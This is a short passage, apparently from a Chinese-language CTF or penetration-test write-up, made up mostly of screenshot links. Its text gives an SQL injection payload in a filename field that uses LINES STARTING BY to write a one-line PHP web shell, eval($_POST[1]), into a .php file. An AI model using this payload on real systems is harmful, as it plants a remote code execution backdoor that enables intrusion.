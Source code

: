 根据这个我们可以写入一句话木马

payload:

```
filename=1.php' LINES STARTING BY '<?php eval($_POST[1]);?>'#
```

![image-20250218161133251](../assets/image-20250218161133251.png)

![image-20250218161332604](../assets/image-20250218161332604.png)
